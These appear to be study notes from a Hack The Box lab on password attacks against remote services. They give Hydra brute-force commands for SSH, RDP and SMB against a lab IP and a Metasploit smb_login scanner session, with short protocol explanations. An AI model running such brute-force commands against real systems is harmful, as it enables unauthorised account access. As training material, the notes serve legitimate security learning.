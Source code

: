 ## Hashing
* The hashing method converts the transmitted data into another unique value. SSH uses hashing to confirm the authenticity of messages. This is a mathematical algorithm that only works in one direction.

## Hydra - SSH
* We can use a tool such as Hydra to brute force SSH
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

## ## Remote Desktop Protocol (RDP)
* The Remote Desktop Protocol defines two participants for a connection: 
	* a so-called terminal server, on which the actual work takes place, 
	* and a terminal client, via which the terminal server is remotely controlled.
	* ** also used in some third-party solutions**

## Hydra - RDP
* We can also use `Hydra` to perform RDP bruteforcing.
```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```
## SMB 
* SMB can be compared to `NFS` for Unix and Linux for providing drives on local networks.
* SMB is also known as [Common Internet File System](https://cifs.com/) (`CIFS`). It is part of the SMB protocol and enables universal remote connection of multiple platforms such as Windows, Linux, or macOS.
## Hydra - SMB
```shell-session
 hydra -L user.list -P password.list smb://10.129.42.197
```
## Metasploit Framework
 ```shell-session
canklesmaks@htb[/htb]$ msfconsole -q

msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING   none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
 ```